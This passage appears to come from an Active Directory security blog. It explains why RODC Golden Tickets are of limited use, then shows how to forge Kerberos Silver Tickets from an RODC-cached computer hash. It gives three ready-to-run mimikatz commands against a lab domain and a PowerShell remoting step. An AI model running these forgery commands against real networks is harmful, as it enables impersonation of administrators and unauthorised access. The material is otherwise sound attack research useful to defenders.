

What about RODC Golden Tickets?
We can only forge useful Kerberos tickets against a RODC if the service tickets we will be requesting have the associated service account passwords cached (computer or user accounts). This means they aren’t “Golden Tickets” since we are limited to connecting to a single RODC (associated with the RODC’s krbtgt account) otherwise it won’t work. These RODC Golden Tickets aren’t very useful and based on my initial testing don’t seem to work even when targeting the RODC given the differences betwen RODCs and DCs.
The RODC Golden Ticket is created fine using the RODC KRBTGT, but in my initial testing may not work properly since it has to be passed to the RODC associated with the RODC KRBTGT used to create it. And then the target account service has to have its associated Kerberos service account password cached on the RODC.

However, Silver Tickets are quite useful since we can forge a ticket saying we are a Domain Admin and then connect to the service using this Kerberos ticket (assuming the target service account’s password is on the RODC).
Silver Tickets
In this scenario, we want to gain admin access to an Admin server, but don’t have direct access to it. We realize that a RODC has cached the password for this server, so we get onto the RODC and dump the AD database to get the admin server’s computer password hash. In this lab environment, the Admin computer is called “ADSEC12ADMIN1”.
Using the computer password hash, we can generate Silver Tickets for the services required to access PowerShell remoting (HOST, HTTP, WSMAN, RPCSS)'
1: mimikatz.exe "kerberos::golden /admin:LukeSkywalker /id:1428 /domain:lab12.adsecurity.org /target:adsec12admin1.lab12.adsecurity.org /rc4:<NTLM_Hash> /service:http /sid:<SID> /ptt"
2. mimikatz.exe "kerberos::golden /admin:LukeSkywalker /id:1428 /domain:lab12.adsecurity.org /target:adsec12admin1.lab12.adsecurity.org /rc4:<NTLM_hash> /service:host /sid:<sid> /ptt"
3. mimikatz.exe "kerberos::golden /admin:LukeSkywalker /id:1428 /domain:lab12.adsecurity.org /target:adsec12admin1.lab12.adsecurity.org /rc4:<NTLM_hash> /service:wsman /sid:<sid> /ptt"



Once the Silver Tickets are generated and passed into memory, we can view these tickets in klist.
Note that the Silver Tickets are impersonating LukeSkywalker, though poedameron-admin is logged on (and the Poe account doesn’t have rights to the Admin server). This works because the Admin computer’s password hash is cached on the RODC.
Once all the Silver Tickets are generated and are in memory, we can connect to the Admin server using PowerShell remoting (or any other available service supporting Kerberos authentication).
New-PSSession -name admin1 -ComputerName <FQComputerName> ; Enter-PSSession -Name admin1